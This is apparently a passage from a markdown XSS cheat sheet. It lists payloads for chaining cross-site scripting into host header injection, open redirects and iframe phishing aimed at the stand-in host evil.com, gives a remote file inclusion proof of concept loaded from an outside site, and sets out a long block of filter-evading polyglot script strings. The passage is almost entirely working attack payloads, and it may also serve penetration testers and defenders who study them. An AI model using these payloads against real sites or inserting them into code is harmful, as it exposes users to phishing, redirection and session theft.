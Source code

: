    - XSS to Host Header Injection
        
        ```jsx
        ## host header injection through xss
        hostheader: bing.com">script>alert(document.domain)</script><"
        ```
        
    - XSS to Open Redirect
        
        ```jsx
        ## URL redirection through xss
        document.location.href="<http://evil.com>"
        ```
        
    - Phishing Via Iframe
        
        ```jsx
        ## phishing through xss - iframe injection
        <iframe src="<http://evil.com>" height="100" width="100"></iframe>
        ```
        
    - **Remote File Inclusion (RFI) to XSS**
        
        ```jsx
        php?=http://brutelogic.com.br/poc.svg
        ```
        
    - **File upload To XSS**
        
        ```jsx
        ## file upload  through XSS
        upload a picture file, intercept it, change picturename.jpg to xss payload using intruder attack
        ```
        
- **polyglots**
    
    ```jsx
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\\></|\\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="<http://i.imgur.com/P8mL8.jpg>">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()///</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
    ```
    